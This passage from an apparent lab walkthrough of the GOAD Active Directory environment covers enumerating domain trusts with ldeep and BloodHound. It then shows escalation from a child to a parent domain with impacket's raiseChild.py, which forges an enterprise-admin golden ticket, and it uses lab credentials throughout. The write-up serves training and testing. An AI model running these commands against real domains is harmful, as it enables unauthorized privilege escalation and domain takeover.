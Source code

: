 ```bash
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.10 trusts
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.12 trusts
```

![trusts_enum_ldeep.png](/assets/blog/GOAD/trusts_enum_ldeep.png)

- The sevenkingdoms to essos trust link is `FOREST_TRANSITIVE | TREAT_AS_EXTERNAL` due to Sid history enabled
- The essos to sevenkingdoms trust link is just `FOREST_TRANSITIVE`

- The corresponding ldap query is : `(objectCategory=trustedDomain)`

- We can observe this with bloodhound too (button map domain trusts)

```
MATCH p=(n:Domain)-->(m:Domain) RETURN p
```

![trusts_bh_enum.png](/assets/blog/GOAD/trusts_bh_enum.png)

- We can see 
  - A domain bi-directional trust between north.sevenkingdoms.local and sevenkingdoms.local (Child / parent relation)
  - A forest bi-directional trust between essos.local and sevenkingdoms.local 

# Domain Trust - child/parent (north.sevenkingdoms.local -> sevenkingdoms.local)

- Ok now imagine you have pwn the domain north.sevenkingdoms.local you have dump the ntds and you got all the NT hash of all the north domain users.

![child_to_forest.png](/assets/blog/GOAD/child_to_forest.png)

> As said by Microsoft the domain trust is not a security boundary
{: .prompt-info }

## RaiseMeUp - Escalate with impacket raiseChild

- To escalate from child to parent the simplest way is with impacket raiseChild.py script, this will do all the work for us.

```bash
raiseChild.py north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!' 
```

![trusts_domain_raisechild.png](/assets/blog/GOAD/trusts_domain_raisechild.png)

- This create a golden ticket for the forest enterprise admin.
- Log into the forest and get the target info (default administrator RID: 500)
- All the job is done with one command, if you are lazy you don't even need to understand x)

## Golden ticket + ExtraSid
